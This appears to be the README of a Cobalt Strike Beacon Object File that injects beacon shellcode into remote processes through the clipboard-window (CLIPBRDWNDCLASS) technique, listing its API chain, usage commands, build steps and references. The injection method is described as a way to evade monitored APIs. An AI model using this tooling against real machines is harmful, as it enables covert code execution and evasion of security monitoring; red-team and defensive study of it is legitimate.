


## ClipboardWindow-Inject (Cobalt Strike BOF)

Beacon Object File (BOF) that injects beacon shellcode into remote process, avoiding the usage of common monitored APIs.

Using the CLIPBRDWNDCLASS injection technique (similar to Propagate) learned from Hexacorn.
- [Propagate – yet another follow-up (hypothetical clipboard execution version)](http://www.hexacorn.com/blog/2018/11/19/propagate-yet-another-follow-up-hypothetical-clipboard-execution-version/)

##### API Calls
```
NtCreateSection()->NtMapViewOfSection()[local process]->
NtMapViewOfSection()[remote process]->SetProp()->PostMessage()
```
### Support Arch
x64

### Usage
1.List processes with clipboard window

`ClipboardWindow-Inject list`



2.Inject beacon shellcode into target process

`ClipboardWindow-Inject <pid> <listener>`




### Compile
Windows: with x64 Native Tools Command Prompt for VS
```bash
nmake -f Makefile.msvc build
```

Linux/macOS: with x64 MinGW
```bash
x86_64-w64-mingw32-gcc -c ClipboardWindow-Inject.c -o ClipboardWindow-Inject.x64.o
```
### To Do List
+ x86 support

### References
##### Clipboard window injection technique
+ https://modexp.wordpress.com/2019/05/24/4066/
##### Cobalt Strike Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### ROP 
+ https://connormcgarr.github.io/thread-hijacking/
